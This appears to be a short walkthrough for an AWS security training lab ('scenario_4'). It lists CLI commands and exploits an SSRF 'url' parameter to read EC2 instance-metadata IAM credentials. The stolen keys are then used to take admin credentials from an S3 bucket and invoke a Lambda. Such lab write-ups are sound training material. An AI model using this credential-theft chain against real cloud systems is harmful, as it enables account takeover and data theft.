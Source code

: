### **Configure your profile**

`aws configure --profile scenario4_username`

### **Check Lambda Sc4***

`aws lambda list-functions --query "Functions[?starts_with(FunctionName, 'Sc4InvokeMe')]" --profile scenario4_username`

### **Configure ec2lambda profile**

`aws configure --profile ec2lambda`

### Get the IPv4 of instance

`aws ec2 describe-instances --profile ec2lambda`

### **Go to `http://<EC2 instance IP>`**

Abuse the SSRF via the "url" parameter to hit the EC2 instance metadata by going to:

`http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/`

And then:

`http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<ec2_role>`

Then Add the EC2 instance credentials to your AWS CLI credentials file

```
[ec2role]
aws_access_key_id = access_key
aws_secret_access_key = secret_key
aws_session_token = "token"
```

#### Get the admin credentials

```
aws s3 ls --profile ec2role
aws s3 ls --profile ec2role s3://sc4-secret-s3-bucket
aws s3 cp --profile ec2role s3://sc4-secret-s3-bucket/admin-user.txt .

cat admin-user.txt
```

### **Configure the admin profile**

`aws configure --profile admin`
`aws lambda list-functions --profile admin`

### **Invoke a lambda to complete the scenario_4**

`aws lambda invoke --function-name Sc4InvokeMe --payload '{"SSN":"xxx-xx-xxx"}'  --profile admin output.json
cat output.json`
